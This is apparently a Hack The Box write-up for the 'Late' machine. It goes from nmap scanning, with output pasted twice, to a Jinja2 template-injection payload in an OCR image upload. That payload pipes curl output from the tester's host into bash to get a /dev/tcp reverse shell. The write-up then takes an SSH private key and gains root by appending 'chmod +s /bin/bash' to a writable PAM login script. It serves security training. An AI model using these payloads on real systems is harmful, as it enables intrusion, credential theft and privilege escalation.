

# HTB Late

Machine IP: 10.10.11.156

First of all we run an nmap
```
nmap -sC -sV -A 10.10.11.156 -oN nmap

# Nmap 7.92 scan initiated Sun May  1 14:28:00 2022 as: nmap -sC -sV -A -oN nmap 10.10.11.156
Nmap scan report for 10.10.11.156
Host is up (0.061s latency).
Scanned at 2022-05-01 14:28:00 EDT for 10s
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDSqIcUZeMzG+QAl/4uYzsU98davIPkVzDmzTPOmMONUsYleBjGVwAyLHsZHhgsJqM9lmxXkb8hT4ZTTa1azg4JsLwX1xKa8m+RnXwJ1DibEMNAO0vzaEBMsOOhFRwm5IcoDR0gOONsYYfz18pafMpaocitjw8mURa+YeY21EpF6cKSOCjkVWa6yB+GT8mOcTZOZStRXYosrOqz5w7hG+20RY8OYwBXJ2Ags6HJz3sqsyT80FMoHeGAUmu+LUJnyrW5foozKgxXhyOPszMvqosbrcrsG3ic3yhjSYKWCJO/Oxc76WUdUAlcGxbtD9U5jL+LY2ZCOPva1+/kznK8FhQN
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBMen7Mjv8J63UQbISZ3Yju+a8dgXFwVLgKeTxgRc7W+k33OZaOqWBctKs8hIbaOehzMRsU7ugP6zIvYb25Kylw=
|   256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIGrWbMoMH87K09rDrkUvPUJ/ZpNAwHiUB66a/FKHWrj
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 1575FDF0E164C3DB0739CF05D9315BDF
|_http-title: Late - Best online image tools
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May  1 14:28:10 2022 -- 1 IP address (1 host up) scanned in 10.58 seconds
                                                                  
┌──(kali㉿kali)-[~/htb/late]
┌──(kali㉿kali)-[~/htb/late]
└─$ ls
1128075200.jpg  id_rsa  image.png  linpeas.sh  nmap  output-onlinetexttools.png  revshell  text2image_R8471350_20220501_202947.png
                                                                                                                                       
┌──(kali㉿kali)-[~/htb/late]
└─$ code writeup.md
                                                                                                                                       
┌──(kali㉿kali)-[~/htb/late]
└─$ nmap -sC -sV -A 10.10.11.156 -oN nmap cat
                                                                                                                                       
┌──(kali㉿kali)-[~/htb/late]
└─$ cat nmap                                                                                                                     130 ⨯
# Nmap 7.92 scan initiated Sun May  1 14:28:00 2022 as: nmap -sC -sV -A -oN nmap 10.10.11.156
Nmap scan report for 10.10.11.156
Host is up (0.061s latency).
Scanned at 2022-05-01 14:28:00 EDT for 10s
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDSqIcUZeMzG+QAl/4uYzsU98davIPkVzDmzTPOmMONUsYleBjGVwAyLHsZHhgsJqM9lmxXkb8hT4ZTTa1azg4JsLwX1xKa8m+RnXwJ1DibEMNAO0vzaEBMsOOhFRwm5IcoDR0gOONsYYfz18pafMpaocitjw8mURa+YeY21EpF6cKSOCjkVWa6yB+GT8mOcTZOZStRXYosrOqz5w7hG+20RY8OYwBXJ2Ags6HJz3sqsyT80FMoHeGAUmu+LUJnyrW5foozKgxXhyOPszMvqosbrcrsG3ic3yhjSYKWCJO/Oxc76WUdUAlcGxbtD9U5jL+LY2ZCOPva1+/kznK8FhQN
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBMen7Mjv8J63UQbISZ3Yju+a8dgXFwVLgKeTxgRc7W+k33OZaOqWBctKs8hIbaOehzMRsU7ugP6zIvYb25Kylw=
|   256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIGrWbMoMH87K09rDrkUvPUJ/ZpNAwHiUB66a/FKHWrj
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 1575FDF0E164C3DB0739CF05D9315BDF
|_http-title: Late - Best online image tools
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May  1 14:28:10 2022 -- 1 IP address (1 host up) scanned in 10.58 seconds
```

We see ports 22 and 80 open.

## HTTP

Let's check the page by visiting the machine's IP.


We are given the domain late.htb at the footer of the page



And a link that redirects us to http://images.late.htb/


So we add these two domains in the /etc/hosts file.
```
10.10.11.156    late.htb images.late.htb
```

## User flag

We are met with the following page.


It seems we can upload pictures of text and a Flask server using OCR will return the plain text. Using [this site](https://text2image.com/en/) I was able to create images from text. When uploading an image with the word "hello", we get a file *result.txt* with the containing text in \<p\> tags.

### Flask code injection

By inserting the following image:

we can test if we can achieve code injection. Indeed we receive the following text:
```
<p>12
</p>
```

Reading [this article](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/) we get some more insight on how this might work.

Constructing an image with the following text:
```
${{ request.application.__globals__.__builtins__.__import__("os").popen("id").read() }}
```
We get the following response:
```
<p>$uid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)

</p>
```
*I used double quotes, Times New Roman and white letters on a black background, as it seems to work the best.*

Next we use the following payload to get a reverse shell.
```
${{ request.application.__globals__.__builtins__.__import__("os").popen("curl 10.10.15.23:8000/revshell | bash").read() }}
```

On our local machine we create a file **revshell** that contains a simple shell
```
/bin/bash -i >& /dev/tcp/10.10.15.23/1234 0>&1
```

and run netcat to receive the connection
```
nc -lvnp 1234
```

When I get the shell, I copy the /home/svc_acc/.ssh/id_rsa file to my local machine to get a better shell.

```
ssh svc_acc@10.10.11.156 -i id_rsa
```

## Root flag

We download and run [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS).


There's an intresting file that we can write to.

```
cat /usr/local/sbin/ssh-alert.sh 
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

This is probably a script that gets executed everytime there's an ssh login. We can test that by adding a line to the script.
```
echo "touch /tmp/hello" >> ssh-alert.sh
```

Indeed when logging back in there a *hello* file in */tmp* owned by root!
```
-rw-rw-r-- 1 root    root        0 May  1 22:50 hello
```

Knowing that we can execute command as root we either add a reverse shell to *ssh-alert.sh* or set the uid of the */bin/bash* executable.
```
echo "chmod +s /bin/bash" >> /usr/local/sbin/ssh-alert.sh
exit
```
```
ssh svc_acc@10.10.11.156 -i id_rsa
-bash-4.4$ bash -p
bash-4.4# whoami
root
```

